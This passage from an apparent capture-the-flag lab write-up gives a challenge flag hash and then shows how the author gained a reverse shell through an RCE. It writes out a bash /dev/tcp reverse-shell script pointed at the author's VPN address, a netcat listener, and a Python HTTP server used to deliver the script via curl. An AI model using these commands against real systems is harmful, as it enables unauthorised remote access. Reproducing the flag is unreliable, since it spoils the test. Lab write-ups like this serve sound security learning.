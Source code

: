 > Answer: _**a980d99281a28d638ac68b9bf9453c2b**_

## <mark style="color:blue;">Alternative Reverse Shell</mark>

Instead of abusing the RCE directly on the browser, I tried to get a Reverse Shell on the machine

* First, I created a simple bash script to send the shell connection to my machine

{% code lineNumbers="true" %}
```bash
sudo nano shell.sh
```
{% endcode %}

{% code title="shell.sh" lineNumbers="true" %}
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.195/1234 0>&1  
#I used the my IP on the VPN and an arbitrary port
```
{% endcode %}

***

* Then I established a [_Netcat_](../../networks/tools-and-utilities.md#netcat) listener on the arbitrary port chosen above

{% code lineNumbers="true" %}
```sh
nc -nvlp 1234
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (250) (1).png" alt=""><figcaption></figcaption></figure>

***

* After this, in another terminal, I established an HTTP server using _Python_ in the same folder where the _shell.sh_ file is, and setting another arbitrary port for the server

{% code lineNumbers="true" %}
```bash
python -m http.server 4444
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (251) (1).png" alt=""><figcaption></figcaption></figure>

***

* I used the RCE to send the shell from the target to my machine using the `curl` command. I observed the page remained loading and checking the _Python_ server received the petition

